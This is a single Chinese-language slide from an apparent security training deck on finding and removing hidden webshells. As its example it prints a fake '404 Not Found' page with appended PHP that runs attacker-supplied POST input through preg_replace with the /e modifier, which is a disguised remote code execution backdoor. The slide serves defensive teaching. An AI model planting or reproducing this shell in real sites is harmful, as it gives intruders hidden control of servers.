

93
后 门 查 杀
隐藏后门查杀

常规后门非常容易被查杀或者发现，一般使用关键字识别的方式就可以快速定位到后门存在的位 置，快速删除即可。但是许多时候可能会遇到很多变形的webshell，一般此类webshell不易被通用 脚本或者关键字检测的方式直接检测发现。这边了解一些此类的webshell。

404页面的后门隐藏
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
</body></html>
<?php  @preg_replace("/[pageerror]/e",$_POST['error'],"saft");  header('HTTP/1.1 404 Not Found');
?>